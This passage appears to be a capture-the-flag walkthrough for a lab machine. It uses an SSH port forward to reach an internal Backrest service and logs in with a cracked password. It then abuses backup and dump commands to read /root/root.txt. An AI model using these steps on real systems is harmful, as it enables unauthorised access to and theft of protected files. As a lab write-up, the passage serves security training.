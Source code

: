 Port `127.0.0.1:9898` is open.

### SSH Port Forward

```bash
ssh gael@10.10.11.74 -L 9898:127.0.0.1:9898
```

Navigate to:

```
http://127.0.0.1:9898/
```

Login with `backrest_root` and cracked password.

## Privilege Escalation

### Add Repo and Run Backup

Use UI to add repo and run commands:

- `help`
    
    ![helpbackrest.png](helpbackrest.png)
    
- `backup /root`
    
    ![backuproot.png](backuproot.png)
    

A snapshot ID is returned.

### List Snapshot Files

![lssnapshot.png](lssnapshot.png)

### Then Dump

```bash
dump <snapshot_id> /root/root.txt
```

System has been pwned.
